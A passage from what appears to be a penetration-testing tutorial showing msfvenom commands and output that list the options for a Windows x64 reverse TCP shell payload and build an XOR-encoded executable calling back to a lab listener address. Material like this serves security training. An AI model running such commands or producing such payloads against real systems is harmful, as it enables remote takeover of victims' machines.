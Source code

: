 ``` plain
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

Let's say we want to use a reverse shell executable. First, let's look at the payload options:

``` plain
root@pwnbox:~#msfvenom --payload-options -p windows/x64/shell/reverse_tcp
Ignoring bcrypt-3.1.10 because its extensions are not built.  Try: gem pristine bcrypt --version 3.1.10
Options for payload/windows/x64/shell/reverse_tcp:


       Name: Windows x64 Command Shell, Windows x64 Reverse TCP Stager
     Module: payload/windows/x64/shell/reverse_tcp
   Platform: Windows
       Arch: x86_64
Needs Admin: No
 Total size: 449
       Rank: Normal

Provided by:
    sf <stephen_fewer@harmonysecurity.com>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST     192.168.80.155   yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (Windows x64) (staged). Connect back to 
  the attacker (Windows x64)
...
```

Now we know what options we need for creating an executable. I already have the LHOST and LPORT set, but will pass them anyway for demo purposes:

``` plain
root@pwnbox:~#msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.80.155 LPORT=4444 -b "\x00" -e x64/xor -f exe -o ~/doom.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86_64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 551 (iteration=0)
x64/xor chosen with final size 551
Payload size: 551 bytes
Saved as: /root/doom.exe
```
